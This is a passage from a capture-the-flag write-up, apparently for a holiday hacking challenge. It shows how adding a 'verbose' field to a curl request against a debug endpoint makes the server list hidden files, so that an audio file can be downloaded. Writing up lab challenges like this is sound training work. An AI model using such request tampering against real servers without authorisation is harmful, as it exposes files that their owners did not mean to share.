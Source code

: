 debug-20161226015603-0.txt   100%[==============================================>]     144  --.-KB/s    in 0s      

2016-12-25 20:00:45 (10.9 MB/s) - ‘<span class="sb">debug-20161226015603-0.txt</span>’ saved [144/144]
</code></pre></figure>

So yes, that file is available on the server. There is also a new field returned in the response: `"verbose": false`. Could we send this field in our initial request, but setting verbose to true?

<figure class="highlight"><pre><code class="language-java" data-lang="java">curl -H 'Content-Type: application/json' -H 'User-Agent: Dalvik/2.1.0 (Linux; U; Android 5.0; Custom Phone - 5.0.0 - API 21 - 768x1280 Build/LRX21M)' -H 'Host: dev.northpolewonderland.com' --data-binary '{"date":"20161225202909-0500","udid":"10b0207e60c0ef17","debug":"com.northpolewonderland.santagram.EditProfile, EditProfile","freemem":123,<span class="sb">"verbose":true</span>}' --compressed 'http://dev.northpolewonderland.com/index.php'
</code></pre></figure>

{% highlight json %}
{% raw %}
{
    "date": "20161226021020",
    "date.len": 14,
    "status": "OK",
    "status.len": "2",
    "filename": "debug-20161226021020-0.txt",
    "filename.len": 26,
    "request": {
        "date": "20161225202909-0500",
        "udid": "10b0207e60c0ef17",
        "debug": "com.northpolewonderland.santagram.EditProfile, EditProfile",
        "freemem": 123,
        "verbose": true
    },
    "files": ["debug-20161224235959-0.mp3",
              "debug-20161226020206-0.txt", 
              "debug-20161226021020-0.txt", 
              "index.php"]
}
{% endraw %}
{% endhighlight %}

Holy cow! There are a ton more filenames given in this response. Also, wait.. what is that first file?

<figure class="highlight"><pre><code class="language-java" data-lang="java">debug-20161224235959-0.mp3
</code></pre></figure>

Looks like we have our audio file from dev! Simply `wget` this file and we can move on to the next server!

### 7.4) The Banner Ad Server
